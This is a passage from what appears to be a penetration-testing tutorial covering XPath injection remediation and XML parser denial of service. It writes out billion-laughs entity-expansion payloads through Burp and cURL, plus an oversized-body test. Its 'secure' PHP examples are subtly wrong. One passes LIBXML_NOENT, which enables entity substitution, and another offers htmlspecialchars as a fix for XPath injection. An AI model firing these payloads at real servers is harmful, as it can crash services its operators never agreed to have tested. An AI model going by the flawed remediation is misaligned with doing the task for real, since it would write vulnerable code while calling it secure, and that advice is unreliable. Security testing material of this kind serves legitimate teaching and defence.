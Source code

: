 **Example Secure Code (PHP)**:
```php
$query = preg_replace('/[^a-zA-Z0-9]/', '', $query);
$xpath = new DOMXPath($xml);
$result = $xpath->query("//user[name='$query']/password");
```
Test: No data returned.

**Remediation**:
- Sanitize XPath inputs:
  ```php
  $query = htmlspecialchars($query, ENT_QUOTES, 'UTF-8');
  ```
- Use parameterized XPath queries if supported.

**Tip**: Save extracted data in a report.

### 5. Test for XML Parser Sabotage (DoS)

**Objective**: Check if malformed XML causes application crashes or resource exhaustion.

**Steps**:
1. Inject DoS payloads:
   - Use Burp:
     ```http
     POST /api HTTP/1.1
     Host: example.com
     Content-Type: application/xml
     <!DOCTYPE lolz [<!ENTITY lol "lol"><!ENTITY lol1 "&lol;&lol;">...]><root>&lol9;</root>
     ```
   - Use cURL:
     ```bash
     curl -i -X POST -H "Content-Type: application/xml" --data "<!DOCTYPE lolz [<!ENTITY lol \"lol\"><!ENTITY lol1 \"&lol;&lol;\">]><root>&lol1;</root>" "http://example.com/api"
     ```
2. Test large payloads:
   - Send 1MB+ XML data:
     ```xml
     <root><data>AAAA...[1MB]</data></root>
     ```
3. Check responses:
   - Look for server timeouts, 500 errors, or crashes.
4. Monitor server impact:
   - Observe response times or logs (if accessible).

**Example Vulnerable Code (PHP)**:
```php
$xml = simplexml_load_string($_POST['xml']);
```
Test: Billion laughs payload
Result: Server crash or timeout.

**Example Secure Code (PHP)**:
```php
libxml_disable_entity_loader(true);
$xml = simplexml_load_string($_POST['xml'], null, LIBXML_NOENT | LIBXML_COMPACT);
```
Test: No crash.
